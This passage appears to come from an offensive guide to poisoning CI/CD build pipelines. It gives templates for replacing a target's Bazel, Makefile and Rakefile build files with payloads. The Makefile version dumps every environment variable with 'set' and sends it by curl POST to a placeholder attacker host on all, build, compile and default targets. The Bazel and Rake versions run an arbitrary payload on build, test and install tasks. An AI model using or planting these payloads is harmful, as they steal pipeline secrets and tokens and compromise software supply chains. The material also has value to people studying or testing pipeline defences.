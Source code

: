 ```shell
genrule(
    name = "build",
    outs = ["foo"],
    cmd = "{Escaped-Shell-Payload}",
    visibility = ["//visibility:public"],
)
```


### Makefile

> Make files are often executed by build pipelines for projects written in `C`, `C++` or `Go` (but not exclusively).\
> There are several utilities that execute `Makefile`, the most common are `GNU Make` & `Make`.\
> Replace your target  `Makefile` with the following payload

```shell
.MAIN: build
.DEFAULT_GOAL := build
.PHONY: all
all: 
	set | curl -X POST --data-binary @- {YourHostName}
build: 
	set | curl -X POST --data-binary @- {YourHostName}
compile:
    set | curl -X POST --data-binary @- {YourHostName}
default:
    set | curl -X POST --data-binary @- {YourHostName}
```



### Rakefile

> Rake files are similar to `Makefile` but for Ruby projects.\
> Replace your target `Rakefile` with the following payload



```shell
task :pre_task do
  sh "{Payload}"
end

task :build do
  sh "{Payload}"
end

task :test do
  sh "{Payload}"
end

task :install do
  sh "{Payload}"
end

task :default => [:build]
```
